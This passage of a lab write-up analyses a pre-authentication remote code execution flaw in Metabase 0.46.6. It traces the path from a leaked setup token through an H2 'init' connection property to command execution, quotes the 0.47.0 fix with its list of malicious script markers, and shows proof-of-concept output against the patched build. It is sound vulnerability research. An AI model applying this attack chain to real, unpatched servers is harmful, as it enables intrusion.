

## 8. Root cause analysis

### 8.1 The data flow

```text
attacker
  |  GET  /api/session/properties          (no authentication)
  v
setup-token
  |  POST /api/setup/validate  {token, details{engine, details{db, init}}}
  v
metabase.api.setup/validate                 ;; the only check is the setup token
  |
  v
metabase.driver/can-connect? :h2 details
  |
  v
metabase.driver.sql-jdbc.conn/connection-details->spec :h2
  |
  v
mdb.spec/spec :h2 (update details :db connection-string-set-safe-options)
  |
  v
clojure.java.jdbc -> java.sql.DriverManager.getConnection  (properties map incl. "init")
  |
  v
H2 "init" connection property -> org.h2.engine.SessionLocal -> JavaScript engine
  |
  v
java.lang.Runtime.getRuntime().exec(...)   ;; attacker-controlled command
```

### 8.2 The missing check

`connection-string-set-safe-options` in the 0.46.6 H2 driver only sanitises the **`db`
string**: it explodes `file;OPTION=value` pairs, removes an `INIT=` option and forces
`IFEXISTS=TRUE`. What it does not do is constrain the **rest of the details map**:

```clojure
(defmethod sql-jdbc.conn/connection-details->spec :h2
  [_ details]
  {:pre [(map? details)]}
  (mdb.spec/spec :h2 (update details :db connection-string-set-safe-options)))
```

`mdb.spec/spec` merges the whole `details` map into the JDBC specification, so any extra
key the attacker invents — `init` in our payload — becomes a JDBC connection property.
H2 documents `INIT` as a property that runs SQL when a connection is opened ("execute SQL
on connection"), and H2's `//javascript` script dialect can call Java directly. 

## 9. Applied fix

### 9.1 The change made in this lab

Only the image tag changes between the two environments:

```diff
--- part-b/vulnerable/docker-compose.yml
+++ part-b/fixed/docker-compose.yml
-    image: metabase/metabase:v0.46.6
+    image: metabase/metabase:v0.47.0
-      - "3000:3000"
+      - "3001:3000"
```

### 9.2 What the upgrade changes in the code

In 0.47.0 the H2 driver gained a validation hook that is called before any connection is
attempted. Reduced to its essence (current upstream code in `src/metabase/driver/h2.clj`):

```clojure
(defmethod driver/validate-db-details! :h2
  [_driver {:keys [db]}]
  (when-not driver.settings/*allow-testing-h2-connections*
    (throw (ex-info (tru "H2 is not supported as a data warehouse") {:status-code 400})))
  ...)

(defmethod driver/can-connect? :h2
  [driver details]
  (driver/validate-db-details! driver details)
  (sql-jdbc.conn/can-connect? driver details))
```

Two things happen:

1. **H2 can no longer be registered as a warehouse at all**, so the wizard has no code-capable driver left to reach.
2. When H2 connections are allowed, the details are additionally parsed with H2's own
   `ConnectionInfo`, and the properties are inspected: a malicious value (`;`, `//javascript`,
   `#ruby`, `//groovy`, `@groovy`) raises `Malicious keys detected`, and a literal `INIT`
   property raises `INIT not allowed`.

## 10. Verify that the vulnerability is eliminated

### 10.1 Same request, two builds

| | vulnerable (0.46.6, port 3000) | fixed (0.47.0, port 3001) |
| --- | --- | --- |
| setup token leaked | yes | yes (the leak was not the bug) |
| `POST /api/setup/validate` with the `init` payload | HTTP 400 — trigger compiled and executed | HTTP 400 — `{"message":"H2 is not supported as a data warehouse"}` |
| marker file in the container | `-rw-r--r-- metabase metabase … /tmp/metabase-pwned` | `ls: /tmp/metabase-pwned: No such file or directory` |
| command execution | **yes** | **no** |

```text
$ python3 part-b/poc.py --base-url http://127.0.0.1:3001 --container mb-fixed
== target: http://127.0.0.1:3001 ==
setup-token leaked without authentication: efca88aa-d095-4a94-99e7-1ef6b56d634d
== sending /api/setup/validate with an h2 init payload: touch /tmp/metabase-pwned
>> HTTP 400
{"message":"H2 is not supported as a data warehouse"}
== proof: docker exec mb-fixed ls -l /tmp/metabase-pwned
ls: /tmp/metabase-pwned: No such file or directory
>> NOT EXPLOITABLE: /tmp/metabase-pwned does not exist
```



### 10.2 Regression check

The patched build still works as a product: it serves `/api/health` (`{"status":"ok"}`),
serves the setup wizard, and the *legitimate* database-connection flow (postgres/mysql/…)
is untouched — what was removed is only the ability to register a code-capable local H2
engine through an unauthenticated endpoint.
